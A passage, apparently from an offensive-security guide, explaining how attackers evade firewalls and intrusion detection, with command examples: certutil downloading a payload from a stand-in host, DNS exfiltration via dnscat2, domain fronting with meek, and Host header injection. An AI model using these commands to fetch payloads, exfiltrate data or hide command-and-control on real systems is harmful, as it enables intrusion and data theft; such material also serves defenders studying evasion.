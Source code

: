         bash

    certutil.exe -urlcache -split -f http://example.com/payload.exe payload.exe

Using Non-Standard Ports: Firewalls often monitor standard ports for suspicious activity. Using non-standard ports for C2 communication or data exfiltration can evade detection. Tools like SSH can be configured to use non-standard ports.

    Command Example:

    bash

        ssh -p 2222 user@remote_host

Application Layer Protocol Obfuscation

    Domain Fronting: This technique involves using Content Delivery Networks (CDNs) to mask the final destination of encrypted traffic. By making all traffic appear as if it is going to a high-reputation domain (like a popular cloud provider), it bypasses censorship and detection.
        Tools: meek, a domain fronting transport used with TOR; it disguises TOR traffic as regular HTTPS traffic to evade detection.

    Command Example (Setting up meek transport with TOR):

    bash

    tor --ClientTransportPlugin meek exec /path/to/meek-client

Using Covert Communication Channels

    Out-of-Band Communication: Sending sensitive data or commands via alternative, often overlooked channels (e.g., SMS, Bluetooth) while the main channel appears benign.

    Covert Timing Channels: Manipulate the timing of legitimate traffic to encode hidden messages. For example, varying the timing of packet transmission to encode binary data.

    DNS Exfiltration: Using DNS requests to exfiltrate data or receive commands. Since DNS is rarely blocked and often overlooked, it serves as an effective covert channel. Techniques involve encoding data into subdomains of DNS queries.
        Example Tools:
            DNSCat2: A tool that creates a communication channel over DNS.
                Command Example:

                bash

                ./dnscat2.rb --dns server.com

Using HTTP Host Header Injection:

    By manipulating the Host header in HTTP requests, attackers can exploit certain server configurations to evade detection or carry out redirection-based attacks.

    Command Example:

    bash

        curl -H "Host: malicious.com" http://victim.com

    Encrypted Command and Control (C2) Communication

        Using Custom Encryption: Creating custom encryption algorithms or proprietary C2 protocols makes it harder for IDS/IPS to recognize and decrypt the traffic.
